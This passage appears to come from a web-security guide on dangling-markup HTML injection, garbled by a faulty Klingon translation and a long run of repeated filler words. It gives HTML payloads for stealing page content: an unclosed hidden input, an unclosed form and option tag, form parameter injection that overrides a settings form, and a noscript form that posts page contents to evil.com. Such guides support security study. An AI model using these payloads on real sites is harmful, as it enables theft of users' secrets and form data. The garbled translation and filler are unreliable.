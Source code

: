 vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vItlhutlhDI' 'e' vIt
```html
<input type='hidden' name='review_body' value="
```
`and this input field will contain all the content between its double quote and the next double quote in the HTML. This attack mix the "_**Stealing clear text secrets**_" with "_**Stealing forms2**_".

You can do the same thing injecting a form and an `<option>` tag. All the data until a closed `</option>` is found will be sent:`

`'ej vaj vItlhutlh 'e' vItlhutlh HTML vItlhutlh. "_**Stealing clear text secrets**_" 'ej "_**Stealing forms2**_" vItlhutlh.`
`vaj vItlhutlh `<option>` tag 'ej vItlhutlh form injecting 'e' vItlhutlh. vItlhutlh vaj vItlhutlh `</option>` vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh:`
```html
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```
### Form parameter injection

**tlhIngan Hol translation:**

**Form parameter injection** (Form parameter injection) 

**tlhIngan Hol translation:**

### Form parameter injection

You can change the path of a form and insert new values so an unexpected action will be performed:
```html
<form action='/change_settings.php'>
<input type='hidden' name='invite_user'
value='fredmbogo'>                                        ← Injected lines

<form action="/change_settings.php">                        ← Existing form (ignored by the parser)
...
<input type="text" name="invite_user" value="">             ← Subverted field
...
<input type="hidden" name="xsrf_token" value="12345">
...
</form>
```
### Stealing clear text secrets via noscript

`<noscript></noscript>` jatlh tag vItlhutlh browser javascript support (Chrome [chrome://settings/content/javascript](chrome://settings/content/javascript) vItlhutlh) enable/disable.

web page content injection point bottom attacker controlled site exfiltrate way:
```html
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```
### CSP-ghItlhvam vItlhutlh

